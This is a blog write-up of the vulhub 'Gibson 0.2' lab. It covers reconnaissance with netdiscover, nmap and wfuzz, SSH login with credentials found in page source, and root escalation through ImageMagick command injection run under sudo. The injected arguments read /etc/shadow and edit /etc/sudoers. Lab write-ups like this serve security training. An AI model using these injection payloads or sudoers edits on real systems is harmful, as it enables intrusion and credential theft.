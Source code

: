 ```yaml
---
layout: post
title: "Gibson:0.2"
date: 2016-07-21 09:20:22 -0500
comments: true
categories: [vulhub,ImageMagick]
---
```


###Tools:

* netdiscover
* Nmap
* Wfuzz
* Nikto


###Vulnerability:
[ImageMagick <= 6.9.3-9 / <= 7.0.1-0 - Multiple Vulnerabilities ](https://www.exploit-db.com/exploits/39767/)

<!--more-->
Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/gibson/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.196 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.196 -p-`


{% img  /images/blog/vulhub/gibson/Selection_002.png   [title manually exploit [alt text]] %}

port 22 and 80 are opening.

use wfuzz to scan

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.79.196/FUZZ 2>/dev/null
```

Nothing cool come out.

check the webpage, find a file `davinci.htm`. Double click it.

{% img  /images/blog/vulhub/gibson/Selection_003.png   [title manually exploit [alt text]] %}

Not useful

{% img  /images/blog/vulhub/gibson/Selection_004.png   [title manually exploit [alt text]] %}

check the souce code:

{% img  /images/blog/vulhub/gibson/Selection_005.png   [title manually exploit [alt text]] %}

Get a potential username/password `margo`:`god`.

login ssh:

{% img  /images/blog/vulhub/gibson/Selection_006.png   [title manually exploit [alt text]] %}

get the shell.


Now lets try to get root

`sudo -l`

{% img  /images/blog/vulhub/gibson/Selection_007.png   [title manually exploit [alt text]] %}

try to execute this program

{% img  /images/blog/vulhub/gibson/Selection_008.png   [title manually exploit [alt text]] %}

ImageMagick ????


`searchsploit ImageMagick`

{% img  /images/blog/vulhub/gibson/Selection_009.png   [title manually exploit [alt text]] %}

I used that exploit.

`convert 'https://example.com"|ls "-la' out.png`

{% img  /images/blog/vulhub/gibson/Selection_010.png   [title manually exploit [alt text]] %}

works

{% img  /images/blog/vulhub/gibson/Selection_011.png   [title manually exploit [alt text]] %}


now try:

`sudo convert 'https://example.com"|cat "/etc/shadow' out.png`

{% img  /images/blog/vulhub/gibson/Selection_012.png   [title manually exploit [alt text]] %}

now 

modify the `/etc/sudoers`

`sudo convert 'https://example.com"|vim "/etc/sudoers' out.png`

{% img  /images/blog/vulhub/gibson/Selection_013.png   [title manually exploit [alt text]] %}

save and quit.

ssh to the box as margo,

`sudo su`

{% img  /images/blog/vulhub/gibson/Selection_014.png   [title manually exploit [alt text]] %}


Game Over




